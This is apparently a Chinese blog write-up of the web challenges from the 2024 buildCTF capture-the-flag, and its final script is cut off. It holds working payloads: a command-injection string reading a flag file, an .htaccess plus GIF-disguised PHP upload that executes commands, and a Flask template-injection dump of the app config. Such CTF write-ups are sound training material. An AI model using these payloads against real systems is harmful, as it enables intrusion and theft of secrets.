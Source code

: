 ```yaml
---
typora-root-url: ./2024buildCTF
title: 2024buildCTF-web-wp
toc: true
categories:
  - 技术
  - ctf
  - web
  - wp
date: 2024-10-10 22:15:08
tags: 
  - ctf
---
```


# 2024buildCTF -web-wp

## 我写的网站被rce了？

`log_type=||nl${IFS}/fl''ag||`

## ez!http

跟着按要求操作，用http头伪造

## find-the-id

传id爆破就行

## babyupload

可上传.htaccess       `AddType application/x-httpd-php .png`

上传2.png   GIF89a<?=`en''v`?>

访问2.png

## RedFlag

```python
{{url_for.__globals__['current_app'].config}}
```

https://www.freebuf.com/articles/web/305268.html

## tflock

```python
import time
import requests

route = "/login.php"
# url2 = "http://27.25.151.80:38515/admin.php"
url = 'http://27.25.151.80:8000/api/game/2/container/10'
proxy = {
    "http": "http://127.0.0.1:8080",
    "https": "http://127.0.0.1:8080",
}
cookie = {'GZCTF_Token':'xxxxxxx'}

def des():
    response = requests.delete(url, cookies=cookie)
```